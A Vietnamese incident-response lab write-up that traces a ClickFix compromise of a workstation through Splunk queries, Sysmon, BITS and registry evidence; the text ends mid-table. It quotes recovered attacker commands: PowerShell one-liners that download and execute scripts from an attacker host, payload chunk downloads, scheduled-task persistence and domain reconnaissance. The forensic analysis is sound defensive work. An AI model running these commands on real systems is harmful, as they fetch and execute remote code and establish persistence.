# CredSnare – Angry Likho APT Lab

# Thông tin chung

## Tình huống

On August 4, 2025, CORP.lab’s SOC team detected unusual activity from an engineering user’s workstation. Initial anomalies quickly escalated as security alerts revealed file executions in unusual locations and network connections on unexpected ports, with many events evading antivirus detection.

Given the potential compromise of sensitive systems, including the domain controller, investigators suspected credential theft, data exfiltration, and persistent access. Your task is to investigate this incident using available logs, Splunk telemetry, and forensic artifacts from both the workstation and the domain controller.

## Danh sách host

| Host | IP |
|---|---|
| PC01 | `10.10.11.215` |
| DC01 | `10.10.11.155` |

**Domain:** `CORP.lab`

## Môi trường lab và log

Lab cung cấp Windows Event Logs trên Splunk và một phần disk artefacts từ ổ `C:\` của PC01 và DC01. 

### Truy vấn xác định IP

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=22 QueryName IN (*DC01*, *PC01*)
| table _time QueryName QueryResults
```

# Điều tra

## Host 1: PC01 (10.10.11.215)

### 1.0. Phát hiện hoạt động bất thường

Theo mô tả tình huống, đội ngũ SOC của CORP.lab phát hiện các executable được khởi chạy từ vị trí bất thường và những kết nối đến port không thường gặp từ máy trạm của một kĩ sư. Vì vậy, bước đầu tiên là lọc các sự kiện sysmon event id 3 trên PC01 để xác định các Image có kết nối mạng và vị trí khác thường:  

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PC01" EventCode=3
| dedup Image
| table _time user SourceIp SourcePort DestinationIp DestinationPort direction state Image ProcessId ProcessGuid RuleName
| sort _time
```



Vào 2025-08-04 20:53:34, trên PC01, ghi nhận process `set-up.exe` (PID = 8500, ProcessGuid = `{c73af8d8-fe53-6890-2010-000000005200}`) chạy dưới danh tính `william` thực hiện kết nối outbound tới `10.10.5.195:9001`. Tệp thực thi của process này nằm tại `C:\Users\william\AppData\Roaming\7oCDTWYu\set-up.exe`, bên trong một thư mục với tên ngẫu nhiên. Ngoài ra, `10.10.5.195` là 1 private ip, có thể là ip của máy tấn công nằm trong một subnet khác hoặc 1 host nội bộ bị compromise từ trước.

### 1.1. Initial Access — ClickFix

```spl
index=main host="PC01" EventCode=4688 set-up.exe
| eval parent_process_id=tonumber(parent_process_id, 16), NewProcessId=tonumber(NewProcessId, 16)
| table _time SubjectUserName SubjectLogonId MandatoryLabel TokenElevationType parent_process_id ParentProcessName NewProcessId NewProcessName
| sort _time
```



Vào 2025-08-04 18:39:15, security event id 4688 ghi nhận process `set-up.exe` (PID = 8500) được khởi chạy từ `powershell.exe` (PID = 14824) dưới tài khoản `william` với Integrity Level = **High** và `TokenElevationType=1937` (tức process chạy với elevated token) cho thấy payload này đã được chạy với đặc quyền cao thừa hưởng từ user william. Logon id của phiên đăng nhập xuất hiện hoạt động bất thường này là `0x32e15c9`. 

Để tìm nguyên nhân xuất hiện của `set-up.exe` và xác định commandline rõ ràng, tiếp tục kiểm tra sysmon event id 1 vào khoảng thời điểm này:

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PC01" earliest="08/04/2025:18:00:00" latest="08/04/2025:19:00:00" EventCode=1
| table _time host user IntegrityLevel LogonId parent_process_id parent_process_path process_id CommandLine
| sort _time
```



Vào 2025-08-04 18:38:51, trên PC01, sysmon event id 1 ghi nhận process `explorer.exe` (PID = 11768) khởi chạy powershell (PID = 14824) nhằm thực thi một câu lệnh đáng ngờ. Từ command line, ta thấy câu lệnh này sử dụng `Invoke-WebRequest` để tải script powershell `http://10.10.5.199/payload/win15.ps1` rồi dùng `Invoke-Expression` (`iex`) để thực thi nội dung script tải về ngay trong memory mà không chủ động ghi script thành một tệp riêng trên ổ đĩa. Ngoài ra, câu lệnh thiết lập các tham số `-NoProfile` và `-ExecutionPolicy Bypass` lần lượt bỏ qua việc nạp powerShell profile và chính sách thực thi trong phiên. Câu lệnh này chạy dưới danh tính `william` với Integrity Level = High và logon id = `0x32e15c9`.

Mối quan hệ `explorer.exe → powershell.exe` này gợi ý rằng attacker đã sử dụng kĩ thuật ClickFix đánh lừa người dùng nhập 1 câu lệnh độc hại vào hộp thoạt Win+R và thực thi. Để kiểm tra giả thuyết, đối chiếu sysmon event id 13 thêm value vào registry key RunMRU (key lưu lại lịch sử gồm tối đa 26 lệnh gần nhất mà người dùng đã nhập vào hộp thoại Run) trong cùng khoảng thời gian:

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PC01" earliest="08/04/2025:18:38:00" latest="08/04/2025:18:40:00" EventCode=13 registry_path=*RunMRU*
| table _time process_path process_id RuleName registry_path registry_value_name
| sort _time
```



Vào 2025-08-04 18:38:51, sysmon event id 13 ghi nhận 1 registry value mới được thêm vào trong key RunMRU với giá trị là lệnh powershell vừa quan sát được trong commandline lúc trước. RunMRU lưu lịch sử lệnh người dùng nhập vào hộp thoại Run. 

**Disk Artifacts:**

Mở hive `NTUSER.DAT` của tài khoản `william` bằng Registry Explorer để đối chiếu nội dung RunMRU từ disk artefact.



Process logs ghi nhận Chrome được mở lúc 2025-08-04 18:36:48,ngay trước thời điểm powershell độc hại chạy. Tiếp tục kiểm tra Chrome History của người dùng để xác định trang web đánh lừa mà victim đã visit:



Mở Chrome History (vị trí: `%LOCALAPPDATA%\Google\Chrome\User Data\Default\History` ) bằng công cụ "DB Browser for SQLite":



Khoảng 50 giây trước khi câu lệnh powershell trên được thực thi, Chrome History ghi nhận user truy cập url `https://muahmmedshahblis.github.io/blabla/` lúc 2025-08-04 18:38:01 với title **Verify You Are Human** cho thấy khả năng cao website đang yêu cầu user giải 1 captcha. Những hành vi process và lịch sử duyệt web quan sát được đều cho thấy user william đã bị đánh lừa bởi kĩ thuật ClickFix.

### 1.2. Thông tin phiên đăng nhập của `william`

```spl
index=main source="XmlWinEventLog:Security" host="PC01" EventCode IN (4624, 4672, 4627) 0x32e15c9
```

```spl
index=main source="XmlWinEventLog:Security" host="PC01" EventCode=4624 william
```





Không tìm thấy các event id 4624/4627/4672 tương ứng với logon id `0x32e15c9` trong Security logs được cung cấp. 

### 1.3. Process tree ban đầu

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PC01" earliest="08/04/2025:18:00:00" EventCode=1
| table _time host user IntegrityLevel LogonId parent_process_id parent_process_path process_id CommandLine
| sort _time
```

```text
                                                              [11768] C:\Windows\explorer.exe
2025-08-04 18:38:51  william           High      0x32e15c9    └── [14824] "C:\Windows\system32\WindowsPowerShell\v1.0\PowerShell.exe" -NoProfile -ExecutionPolicy Bypass -Command "& {$url='http://10.10.5.199/payload/win15.ps1';iex ([System.Text.Encoding]::UTF8.GetString((iwr $url -UseBasicParsing).Content))}"
2025-08-04 18:39:15  william           High      0x32e15c9        └── [8500] C:\Users\william\AppData\Roaming\7oCDTWYu\set-up.exe
2025-08-04 18:39:16  william           High      0x32e15c9        └── [17392] "C:\Windows\system32\cmd.exe" /c C:\ProgramData\Hose.cmd
2025-08-04 18:39:17  william           High      0x32e15c9            ├── [12796] findstr  /I "wrsa opssvc"
2025-08-04 18:39:17  william           High      0x32e15c9            ├── [3312] tasklist
2025-08-04 18:39:18  william           High      0x32e15c9            ├── [15816] powershell  -Command "Invoke-WebRequest -Uri 'http://10.10.5.199/payload/Italy' -OutFile '..\Italy'"
2025-08-04 18:39:19  william           High      0x32e15c9            ├── [18176] powershell  -Command "Invoke-WebRequest -Uri 'http://10.10.5.199/payload/Holmes' -OutFile '..\Holmes'"
2025-08-04 18:39:20  william           High      0x32e15c9            ├── [18816] powershell  -Command "Invoke-WebRequest -Uri 'http://10.10.5.199/payload/Lying' -OutFile '..\Lying'"
2025-08-04 18:39:20  william           High      0x32e15c9            ├── [6968] powershell  -Command "Invoke-WebRequest -Uri 'http://10.10.5.199/payload/True' -OutFile '..\True'"
2025-08-04 18:39:21  william           High      0x32e15c9            ├── [10876] powershell  -Command "Invoke-WebRequest -Uri 'http://10.10.5.199/payload/Responded' -OutFile '..\Responded'"
2025-08-04 18:39:22  william           High      0x32e15c9            ├── [19188] powershell  -Command "Invoke-WebRequest -Uri 'http://10.10.5.199/payload/Fa' -OutFile '..\Fa'"
2025-08-04 18:39:22  william           High      0x32e15c9            ├── [18132] powershell  -Command "Invoke-WebRequest -Uri 'http://10.10.5.199/payload/Proc' -OutFile '..\Proc'"
2025-08-04 18:39:23  william           High      0x32e15c9            ├── [15984] powershell  -Command "Invoke-WebRequest -Uri 'http://10.10.5.199/payload/Ink' -OutFile '..\Ink'"
2025-08-04 18:39:24  william           High      0x32e15c9            └── [18468] cmd  /c copy /b ..\Italy + ..\Holmes + ..\True + ..\Lying + ..\Responded + ..\Proc + ..\Fa + ..\Ink suggests.a3x
PowerShell.exe (14824) khởi chạy set-up.exe 
2025-08-04 18:39:15  william           High      0x32e15c9    [8500] C:\Users\william\AppData\Roaming\7oCDTWYu\set-up.exe				
2025-08-04 18:45:13  william           High      0x32e15c9    ├── [10576] cmd.exe /c net user /domain
2025-08-04 18:45:13  william           High      0x32e15c9    ├── [10108] cmd.exe /c net group "Domain Admins" /domain
2025-08-04 18:45:13  william           High      0x32e15c9    ├── [18980] cmd.exe /c cmdkey /list
2025-08-04 18:46:25  william           High      0x32e15c9    ├── [964] cmd.exe /c net view \CORP.labSYSVOL
2025-08-04 18:46:26  william           High      0x32e15c9    │   └── [5460] net  view \CORP.labSYSVOL
2025-08-04 18:46:25  william           High      0x32e15c9    ├── [6400] cmd.exe /c ping -n 1 DC01
2025-08-04 18:46:26  william           High      0x32e15c9    │   └── [17192] ping  -n 1 DC01
2025-08-04 18:46:25  william           High      0x32e15c9    ├── [18436] cmd.exe /c arp -a
2025-08-04 18:46:25  william           High      0x32e15c9    ├── [19412] cmd.exe /c tasklist | find ssh
2025-08-04 18:46:26  william           High      0x32e15c9    │   └── [18088] tasklist
2025-08-04 18:47:28  william           High      0x32e15c9    ├── [16540] cmd.exe /c copy C:\Windows\System32\Dism.exe C:\ProgramData\Dism.exe
2025-08-04 18:52:21  william           High      0x32e15c9    ├── [17976] cmd.exe /c copy C:\Windows\System32\Dism.exe C:\Users\Public\Dism.exe
2025-08-04 18:53:45  william           High      0x32e15c9    ├── [10144] C:\Users\Public\Dism.exe
2025-08-04 18:54:51  william           High      0x32e15c9    ├── [14584] cmd.exe /Q /c schtasks.exe /create /sc onlogon /tn DISMCORE /rl highest /tr C:\Users\Public\Dism.exe
2025-08-04 18:57:00  william           High      0x32e15c9    ├── [2732] powershell -ep bypass -c "iex (iwr 'http://10.10.5.199/MSOfficeSyncService.ps1'); Get-NetUser -TrustedToAuth"
2025-08-04 18:59:33  william           High      0x32e15c9    ├── [19384] net user
2025-08-04 18:59:34  william           High      0x32e15c9    │   └── [15600] C:\Windows\system32\net1 user
2025-08-04 18:59:33  william           High      0x32e15c9    ├── [6744] powershell -ep bypass -c "iex (iwr 'http://10.10.5.199/PowerView.ps1' -UseBasicParsing); Get-NetUser -TrustedToAuth"
2025-08-04 19:00:53  william           High      0x32e15c9    └── [3412] powershell -ep bypass -c "iex (iwr 'http://10.10.5.199/MSOfficeSyncService.ps1' -UseBasicParsing); Get-NetUser -TrustedToAuth"
                                                              [10144] C:\Users\Public\Dism.exe
2025-08-04 18:53:45  william           High      0x32e15c9    └── [15468] rundll32.exe
2025-08-04 18:55:14  william           High      0x32e15c9        └── [6452] powershell -ep bypass -c "iex (iwr 'http://10.10.5.199/MSOfficeSyncService.ps1'); Get-NetUser -TrustedToAuth"
                                                              [14584] C:\Windows\System32\cmd.exe
2025-08-04 18:54:51  william           High      0x32e15c9    └── [10924] schtasks.exe  /create /sc onlogon /tn DISMCORE /rl highest /tr C:\Users\Public\Dism.exe
```

### 1.4. PowerShell loader (PID 14824)
Điều tra hoạt động liên quan đến process powershell chạy câu lệnh nhập vào hộp thoại Run:
```spl
index=main source="XmlWinEventLog:Security" host="PC01" earliest="08/04/2025:18:38:00" EventCode=4689
| where ProcessId=lower(tostring(14824, "hex"))
| table _time src_user Logon_ID ProcessId process
```

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PC01" earliest="08/04/2025:18:38:00" latest="08/04/2025:18:40:00" (process_id=14824 OR parent_process_id=14824 OR SourceProcessId=14824) {c73af8d8-fe3b-6890-1610-000000005200}
| stats count by EventCode
```



Process `powershell.exe` (PID = 14824) kết thúc lúc 2025-08-04 18:39:17, khoảng 26 giây sau khi được khởi chạy. Trong thời gian ngắn này, process đã triển khai payload `set-up.exe`, thiết lập Run Key và khởi chạy batch script `Hose.cmd`; chuỗi hành vi phù hợp với vai trò của 1 loader nhiều giai đoạn.

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PC01" earliest="08/04/2025:18:38:00" latest="08/04/2025:18:40:00" process_id=14824 {c73af8d8-fe3b-6890-1610-000000005200} EventCode=3
| table _time DestinationIp DestinationPort
```



Vào 2025-08-04 18:38:57, sysmon event id 3 ghi nhận 1 kết nối tới `10.10.5.199:80`, trùng địa chỉ trong url tải payload `win15.ps1`. 

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PC01" earliest="08/04/2025:18:38:00" latest="08/04/2025:18:40:00" process_id=14824 {c73af8d8-fe3b-6890-1610-000000005200} EventCode=11
| table _time TargetFilename
```



Vào 2025-08-04 18:39:14, ghi nhận tệp thực thi `C:\Users\william\AppData\Roaming\7oCDTWYu\set-up.exe` được tạo. Chỉ một giây sau, event id 4688 trước đó ghi nhận process tương ứng được khởi chạy, xác nhận payload đã được triển khai và thực thi ngay sau khi drop.

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PC01" earliest="08/04/2025:18:38:00" latest="08/04/2025:18:40:00" process_id=14824 {c73af8d8-fe3b-6890-1610-000000005200} EventCode=29
| table _time TargetFilename Hashes
```



Hash của payload set-up.exe:
- SHA1=159BDD025F9B744A431A4ECFA7B84409D69FE3B1
- MD5=233AA109B504538A08D9C14E0F021A30
- SHA256=54FF153C79F9F26D5D0C32F3CD2273BC446B069718D3808F6231724B467FA6F9
- IMPHASH=F0EA7B7844BBC5BFA9BB32EFDCEA957C

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PC01" earliest="08/04/2025:18:38:00" latest="08/04/2025:18:40:00" process_id=14824 {c73af8d8-fe3b-6890-1610-000000005200} EventCode=13
| table _time process_exec process_id registry_key_name registry_path registry_value_name
```



Vào 2025-08-04 18:39:16, sysmon event id 13 ghi nhận Run Key trong hive `HKCU` được thêm 1 value với tên `5TQjtTuo` và giá trị chứa đường dẫn tuyệt đối của payload `set-up.exe`. Mục đích là thực hiện persistence, khởi chạy payload khi user `william` đăng nhập lại. 

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PC01" earliest="08/04/2025:18:38:00" latest="08/04/2025:18:40:00" parent_process_id=14824 {c73af8d8-fe3b-6890-1610-000000005200}
| table _time ProcessId ProcessGuid CommandLine
```



Vào 2025-08-04 18:39:16, process powershell (PID = 14824) khởi chạy `cmd.exe` (PID = 17392) để thực thi batch script `C:\ProgramData\Hose.cmd`.

#### 1.4.1. BITS transfer — `Hose.cmd`

```spl
index=main host="PC01" Hose.cmd
| stats count by EventCode source
```



Lọc các event log theo chuỗi `Hose.cmd` cho thấy hoạt động liên quan tới BITS, nhiều khả năng script powershell ban đầu đã đăng ký bits job để tải payload

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Bits-Client/Operational" host="PC01" earliest="08/04/2025:18:38:00" latest="08/04/2025:18:40:00" EventCode=3
| table _time jobTitle jobId jobOwner processId processPath ClientProcessStartKey
```



Vào 2025-08-04 18:39:16, event id 3 (BITS-Client Operational ) ghi nhận process powershell (PID = 14824) tạo 1 bits job với ID `{7ba6e4a1-e21c-4541-a68f-f76402b1d034}`.

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Bits-Client/Operational" host="PC01" earliest="08/04/2025:18:38:00" latest="08/04/2025:18:40:00" EventCode=16403 jobId={7ba6e4a1-e21c-4541-a68f-f76402b1d034}
| table _time jobId, jobTitle, jobOwner, RemoteName, LocalName, processId, fileCount
```



BITS Event ID 16403 (Job/file parameters recorded) ghi nhận job với id trên có `RemoteName` là `http://10.10.5.199/payload/hose.cmd`, với đường dẫn lưu trữ tại `C:\ProgramData\Hose.cmd`.

Thư mục `C:\ProgramData\` thường được sử dụng bởi các ứng dụng hợp lệ để chứa các file cấu hình, tệp cài đặt, tệp dữ liệu, cơ sở dữ liệu nhỏ hoặc tài nguyên mà các chương trình cần dùng cho mọi tài khoản. Khác với thư mục AppData (nằm trong từng tài khoản người dùng cụ thể tại C:\Users\username\AppData), dữ liệu trong ProgramData không gắn liền với một cá nhân riêng lẻ nào cho nên hầu hết user trên máy có thể ghi và thực thi chương trình từ thư mục này. Do đó, attacker drop payload vào thư mục này vừa đảm bảo việc có thể ghi và chạy khi chạy dưới danh tính bất kì user nào, vừa lẫn vào các tệp hợp lệ.

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Bits-Client/Operational" host="PC01" earliest="08/04/2025:18:38:00" latest="08/04/2025:18:40:00" EventCode=4 jobId={7ba6e4a1-e21c-4541-a68f-f76402b1d034}
| table _time jobId, jobTitle, jobOwner, User, fileCount, bytesTransferred
```



BITS Event ID 4 ghi nhận job hoàn thành việc tải script `Hose.cmd` lúc 2025-08-04 18:39:16, với độ lớn của tệp được xác định qua trường `bytesTransferred=1622`. Kết hợp việc `cmd.exe` được khởi chạy cùng thời điểm, các sự kiện này cho thấy script được tải và thực thi ngay lập tức.

### 1.5. Thực thi script `Hose.cmd` 

```spl
index=main source="XmlWinEventLog:Security" host="PC01" earliest="08/04/2025:18:39:16" EventCode=4689
| where ProcessId=lower(tostring(17392, "hex"))
| table _time src_user Logon_ID ProcessId process
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PC01" earliest="08/04/2025:18:39:00" latest="08/04/2025:18:40:00" (process_id=17392 OR parent_process_id=17392 OR SourceProcessId=17392) {c73af8d8-fe54-6890-2210-000000005200}
| stats count by EventCode
```



Process `cmd.exe` (PID = 17392) kết thúc vào 2025-08-04 18:39:26, khoảng 10 giây sau khi bắt đầu thực thi script `Hose.cmd`.



Thống kê các sysmon event id liên quan đến process này

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PC01" earliest="08/04/2025:18:39:00" latest="08/04/2025:18:40:00" parent_process_id=17392 {c73af8d8-fe54-6890-2210-000000005200} EventCode=1
| table _time CommandLine CurrentDirectory
| sort _time
```



Chạy các lệnh sau (tất cả đều chạy dưới danh tính william với integrity level = High):

| Thời gian | Lệnh | Mô tả |
|---|---|---|
| 2025-08-04 18:39:17 | `findstr  /I "wrsa opssvc"` | Hai process `tasklist` và `findstr` khởi chạy cùng thời điểm, có vẻ attacker chạy tasklist trước rồi pipe output ra lệnh findstr nhằm kiểm tra sự hiện diện của các process thuộc phần mềm bảo mật |
| 2025-08-04 18:39:17 | `tasklist` | Liệt kê process đang chạy  |
| 2025-08-04 18:39:18 | `powershell  -Command "Invoke-WebRequest -Uri 'http://10.10.5.199/payload/Italy' -OutFile '..\Italy'"` | Tải phần `Italy` |
